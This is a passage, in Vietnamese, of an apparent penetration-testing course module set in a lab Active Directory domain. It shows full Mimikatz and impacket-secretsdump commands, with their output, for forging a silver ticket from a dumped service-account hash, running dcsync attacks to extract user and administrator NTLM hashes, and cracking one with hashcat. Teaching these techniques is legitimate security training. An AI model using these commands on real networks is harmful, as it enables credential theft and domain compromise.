                             *Listing 24 - Thử truy cập trang web trên WEB04 với tư cách user jeff*

Listing 24 cho thấy chúng ta không thể truy cập trang web với tư cách jeff. Hãy bắt đầu thu thập các thông tin cần thiết để giả mạo một silver ticket.

Vì chúng ta là local Administrator trên máy này (nơi iis_service có một session đang hoạt động), chúng ta có thể dùng Mimikatz để lấy SPN password hash (NTLM hash của iis_service), đây là mảnh thông tin đầu tiên cần để tạo silver ticket.

Hãy khởi chạy PowerShell với quyền Administrator và mở Mimikatz. Như chúng ta đã học, chúng ta có thể dùng `privilege::debug` và `sekurlsa::logonpasswords` để trích xuất cached AD credentials.

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
...
```

*Listing 25 - Dùng Mimikatz để lấy NTLM hash của user account iis_service được ánh xạ tới SPN mục tiêu*

Listing 25 cho thấy các password hash của user account iis_service. NTLM hash của service account là mảnh thông tin đầu tiên chúng ta cần để tạo silver ticket.

Bây giờ, hãy lấy domain SID, mảnh thông tin thứ hai. Chúng ta có thể nhập `whoami /user` để lấy SID của user hiện tại. Ngoài ra, chúng ta cũng có thể lấy SID của SPN user account từ output của Mimikatz, vì các domain user account tồn tại trong cùng một domain.

Như đã đề cập trong Module *Windows Privilege Escalation*, SID bao gồm nhiều phần. Vì chúng ta chỉ quan tâm tới Domain SID, chúng ta sẽ bỏ RID của user.

```
PS C:\Users\jeff> whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```

                                                                 *Listing 26 - Lấy domain SID*

Phần được highlight trong Listing 26 cho thấy domain SID.

Mảnh thông tin cuối cùng là target SPN. Với ví dụ này, chúng ta sẽ nhắm tới tài nguyên HTTP SPN trên WEB04 (HTTP/web04.corp.com:80) vì chúng ta muốn truy cập trang web đang chạy trên IIS.

Giờ đây khi đã thu thập đủ cả ba mảnh thông tin, chúng ta có thể xây dựng lệnh tạo silver ticket bằng Mimikatz. Chúng ta có thể tạo forged service ticket với module `kerberos::golden`. Module này cung cấp khả năng tạo cả golden và silver ticket. Chúng ta sẽ khám phá khái niệm golden ticket trong Module *Lateral Movement in Active Directory*.

Chúng ta cần cung cấp domain SID (`/sid:`), domain name (`/domain:`), và mục tiêu nơi SPN chạy (`/target:`). Chúng ta cũng cần thêm giao thức SPN (`/service:`), NTLM hash của SPN (`/rc4:`), và tùy chọn `/ptt`, cho phép chúng ta inject ticket giả mạo vào bộ nhớ của máy đang thực thi lệnh.

Cuối cùng, chúng ta phải nhập một domain user tồn tại cho `/user:`. User này sẽ được đặt trong forged ticket. Với ví dụ này, chúng ta sẽ dùng jeffadmin. Tuy nhiên, chúng ta cũng có thể dùng bất kỳ domain user nào khác vì chúng ta có thể tự đặt quyền và group.

Lệnh đầy đủ nằm trong listing sau:

```
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session

mimikatz # exit
Bye!
```

              *Listing 27 - Giả mạo service ticket với user jeffadmin và inject vào session hiện tại*

Như thể hiện trong Listing 27, một service ticket mới cho SPN HTTP/web04.corp.com đã được nạp vào bộ nhớ và Mimikatz đã đặt các group membership phù hợp trong forged ticket. Từ góc nhìn của ứng dụng IIS, user hiện tại sẽ vừa là built-in local administrator (Relative Id: 500) vừa là thành viên của nhiều nhóm có đặc quyền cao, bao gồm nhóm Domain Admins (Relative Id: 512) như được highlight ở trên.

Điều này có nghĩa là chúng ta đã có ticket sẵn sàng để dùng trong bộ nhớ. Chúng ta có thể xác nhận bằng `klist`.

```
PS C:\Tools> klist

Current LogonId is 0:0xa04cc

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

   *Listing 28 - Liệt kê Kerberos ticket để xác nhận silver ticket đã được submit vào session hiện tại*

Listing 28 cho thấy chúng ta đã có silver ticket cho jeffadmin để truy cập http/web04.corp.com được submit vào session hiện tại. Điều này sẽ cho phép chúng ta truy cập trang web trên WEB04 với tư cách jeffadmin.

Hãy xác minh quyền truy cập bằng cùng lệnh như trước.

```
PS C:\Tools> iwr -UseDefaultCredentials http://web04

StatusCode        : 200
StatusDescription : OK
Content           : <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
                    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
                    <html xmlns="http://www.w3.org/1999/xhtml">
                    <head>
                    <meta http-equiv="Content-Type" cont...
RawContent        : HTTP/1.1 200 OK
                    Persistent-Auth: true
                    Accept-Ranges: bytes
                    Content-Length: 703
                    Content-Type: text/html
                    Date: Wed, 14 Sep 2022 11:37:39 GMT
                    ETag: "b752f823fc8d81:0"
                    Last-Modified: Wed, 14 Sep 20...
Forms             :
Headers           : {[Persistent-Auth, true], [Accept-Ranges, bytes], [Content-Length, 703], [Content-Type,
                    text/html]...}
Images            : {}
InputFields       : {}
Links             : {@{outerHTML=<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"></a>; tagName=A;
                    href=http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409}}
ParsedHtml        :
RawContentLength  : 703
```

                                      *Listing 29 - Truy cập SMB share bằng silver ticket*

Tuyệt! Chúng ta đã giả mạo thành công một service ticket và truy cập được trang web với tư cách jeffadmin. Đáng chú ý là chúng ta đã thực hiện cuộc tấn công này mà không cần có mật khẩu plaintext hay password hash của user này.

Khi chúng ta có quyền truy cập vào password hash của SPN, một machine account, hoặc một user, chúng ta có thể giả mạo các service ticket liên quan cho bất kỳ user nào và bất kỳ quyền nào. Đây là một cách rất tốt để truy cập SPN ở các giai đoạn sau của một penetration test, vì trong đa số trường hợp chúng ta cần quyền truy cập đặc quyền để lấy được password hash của SPN.

Vì silver và golden ticket là các kỹ thuật tấn công rất mạnh, Microsoft đã phát hành một bản vá bảo mật để cập nhật cấu trúc PAC. Khi có bản vá này, trường PAC structure mở rộng PAC_REQUESTOR cần phải được domain controller xác thực. Điều này giảm thiểu khả năng giả mạo ticket cho các domain user không tồn tại nếu client và KDC ở trong cùng một domain. Nếu không có bản vá này, chúng ta có thể tạo silver ticket cho các domain user không tồn tại. Các cập nhật từ bản vá này được áp dụng từ ngày 11 tháng 10 năm 2022.

Trong phần này, chúng ta đã học cách giả mạo service ticket bằng cách sử dụng password hash của một SPN mục tiêu. Dù chúng ta đã sử dụng một SPN chạy dưới ngữ cảnh của user account trong ví dụ, chúng ta cũng có thể làm điều tương tự với các SPN chạy dưới ngữ cảnh của machine account.

---

## 2.5. Đồng bộ hóa Domain Controller

---

Trong các môi trường production, các domain thường dựa vào nhiều hơn một domain controller để đảm bảo tính dự phòng. Directory Replication Service (DRS) Remote Protocol sử dụng replication để đồng bộ các domain controller dự phòng này. Một domain controller có thể yêu cầu cập nhật cho một đối tượng cụ thể, như một tài khoản, bằng cách sử dụng API IDL_DRSGetNCChanges.

May mắn cho chúng ta, domain controller nhận yêu cầu cập nhật sẽ không kiểm tra xem yêu cầu đó có đến từ một domain controller đã biết hay không. Thay vào đó, nó chỉ xác minh rằng SID liên quan có các đặc quyền phù hợp. Nếu chúng ta cố gắng phát hành một yêu cầu cập nhật giả mạo tới một domain controller từ một user có một số quyền nhất định, yêu cầu đó sẽ thành công.

Để khởi chạy một replication như vậy, một user cần có các quyền **Replicating Directory Changes**, **Replicating Directory Changes All**, và **Replicating Directory Changes in Filtered Set**. Theo mặc định, các thành viên của các nhóm **Domain Admins**, **Enterprise Admins**, và **Administrators** được gán các quyền này.

Nếu chúng ta giành được quyền truy cập vào một user account thuộc một trong các nhóm này hoặc được gán các quyền này, chúng ta có thể thực hiện một cuộc tấn công `dcsync` trong đó chúng ta mạo danh một domain controller. Điều này cho phép chúng ta yêu cầu bất kỳ thông tin xác thực của user nào từ domain.

Để thực hiện cuộc tấn công này, chúng ta sẽ sử dụng Mimikatz trên một máy Windows đã join domain, và `impacket-secretsdump` trên máy Kali không join domain cho các ví dụ trong phần này.

Hãy bắt đầu với Mimikatz và bắt đầu bằng việc kết nối tới CLIENT75 với tư cách jeffadmin và mật khẩu BrouhahaTungPerorateBroom2023!. Vì jeffadmin là thành viên của nhóm Domain Admins, chúng ta đã có sẵn các quyền cần thiết.

Sau khi kết nối qua RDP, hãy mở một cửa sổ PowerShell và khởi chạy Mimikatz trong C:\Tools. Để Mimikatz thực hiện cuộc tấn công này, chúng ta có thể sử dụng module `lsadump::dcsync` và cung cấp domain username mà chúng ta muốn lấy thông tin xác thực làm tham số cho `/user:`. Với mục đích của ví dụ này, chúng ta sẽ nhắm tới domain user dave.

```
PS C:\Users\jeffadmin> cd C:\Tools\

PS C:\Tools> .\mimikatz.exe
...

mimikatz # lsadump::dcsync /user:corp\dave
[DC] 'corp.com' will be the domain
[DC] 'DC1.corp.com' will be the DC server
[DC] 'corp\dave' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : dave

** SAM ACCOUNT **

SAM Username         : dave
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00410200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD DONT_REQUIRE_PREAUTH )
Account expiration   :
Password last change : 9/7/2022 9:54:57 AM
Object Security ID   : S-1-5-21-1987370270-658905905-1781884369-1103
Object Relative ID   : 1103

Credentials:
    Hash NTLM: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 0: 08d7a47a6f9f66b97b1bae4178747494
    ntlm- 1: a11e808659d5ec5b6c4f43c1e5a0972d
    lm  - 0: 45bc7d437911303a42e764eaf8fda43e
    lm  - 1: fdd7d20efbcaf626bd2ccedd49d9512d
...
```

   *Listing 30 - Sử dụng Mimikatz để thực hiện dcsync attack nhằm lấy thông tin xác thực của dave*

Tốt! Mimikatz đã thực hiện cuộc tấn công dcsync bằng cách mạo danh một domain controller và lấy được thông tin xác thực của dave bằng cơ chế replication.

Bây giờ, hãy sao chép NTLM hash và lưu nó vào một file tên `hashes.dcsync` trên hệ thống Kali. Sau đó, chúng ta có thể crack hash bằng Hashcat như đã học trong Module *Password Attacks*. Chúng ta sẽ nhập mode 1000, `rockyou.txt` làm wordlist, và `best64.rule` làm rule file. Ngoài ra, chúng ta sẽ nhập file chứa NTLM hash và `--force`, vì chúng ta chạy Hashcat trong một VM.

```
kali@kali:~$ hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
08d7a47a6f9f66b97b1bae4178747494:Flowers1              
...
```

                    *Listing 31 - Sử dụng Hashcat để crack NTLM hash thu được từ dcsync attack*

Listing 31 cho thấy chúng ta đã lấy được mật khẩu plaintext của dave thành công.

Giờ đây chúng ta có thể lấy NTLM hash của bất kỳ domain user account nào trong domain corp.com. Hơn nữa, chúng ta có thể thử crack các hash này để lấy mật khẩu plaintext của các tài khoản đó.

Đáng chú ý là chúng ta có thể thực hiện dcsync attack để lấy password hash của bất kỳ user nào trong domain, kể cả domain administrator Administrator.

```
mimikatz # lsadump::dcsync /user:corp\Administrator
...
Credentials:
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
...
```

*Listing 32 - Sử dụng Mimikatz để thực hiện dcsync attack nhằm lấy thông tin xác thực của domain administrator Administrator*

Chúng ta sẽ thảo luận các vector lateral movement như việc tận dụng các NTLM hash thu được từ dcsync trong Module *Lateral Movement in Active Directory*.

Hiện tại, hãy thực hiện dcsync attack từ Linux. Chúng ta sẽ dùng impacket-secretsdump để làm điều này. Để khởi chạy, chúng ta sẽ nhập username mục tiêu dave làm tham số cho `-just-dc-user` và cung cấp thông tin xác thực của một user có các quyền cần thiết, cùng với IP của domain controller theo định dạng `domain/user:password@ip`.

```
kali@kali:~$ impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
[*] Kerberos keys grabbed
dave:aes256-cts-hmac-sha1-96:4d8d35c33875a543e3afa94974d738474a203cd74919173fd2a64570c51b1389
dave:aes128-cts-hmac-sha1-96:f94890e59afc170fd34cfbd7456d122b
dave:des-cbc-md5:1a329b4338bfa215
[*] Cleaning up...
```

      *Listing 33 - Sử dụng secretsdump để thực hiện dcsync attack nhằm lấy NTLM hash của dave*

Listing 33 cho thấy chúng ta đã lấy được NTLM hash của dave thành công. Đầu ra của công cụ cho biết nó sử dụng DRSUAPI, Microsoft API triển khai Directory Replication Service Remote Protocol.

dcsync attack là một kỹ thuật rất mạnh để thu được thông tin xác thực của bất kỳ domain user nào. Một điểm cộng là chúng ta có thể sử dụng nó từ cả Windows và Linux. Bằng cách mạo danh một domain controller, chúng ta có thể dùng replication để lấy thông tin xác thực người dùng từ domain controller. Tuy nhiên, để thực hiện cuộc tấn công này, chúng ta cần một user là thành viên của Domain Admins, Enterprise Admins, hoặc Administrators, vì có một số quyền nhất định cần có để bắt đầu replication. Hoặc, chúng ta có thể tận dụng một user được gán các quyền này, mặc dù khả năng gặp trường hợp đó trong một penetration test thực tế là thấp hơn rất nhiều.

---

# 3. Tổng kết

---

Trong Module này, chúng ta đã khám phá xác thực NTLM và Kerberos. Đây là những phương thức xác thực mang tính then chốt mà penetration tester cần hiểu để có thể thực hiện penetration test trong các môi trường AD. Nếu không nắm vững các khái niệm về cách xác thực hoạt động, chúng ta sẽ không thể hiểu được ở mức kỹ thuật cách các cuộc tấn công được trình bày trong Module này vận hành. Để áp dụng chúng trong các bài đánh giá thực tế, chúng ta thường phải điều chỉnh các kỹ thuật này cho phù hợp nhằm đạt hiệu quả.

Các phương pháp tấn công trong Module này cung cấp cho chúng ta những kỹ năng cần thiết để thực hiện các cuộc tấn công vào cơ chế xác thực AD. Những kỹ thuật này sẽ hỗ trợ chúng ta rất nhiều trong việc thu được thông tin xác thực người dùng hợp lệ và quyền truy cập vào các hệ thống cũng như dịch vụ.

Trong Module tiếp theo *Lateral Movement in Active Directory*, chúng ta sẽ xây dựng dựa trên kiến thức và kỹ năng đã được cung cấp trong Module này để thực hiện lateral movement trong môi trường AD.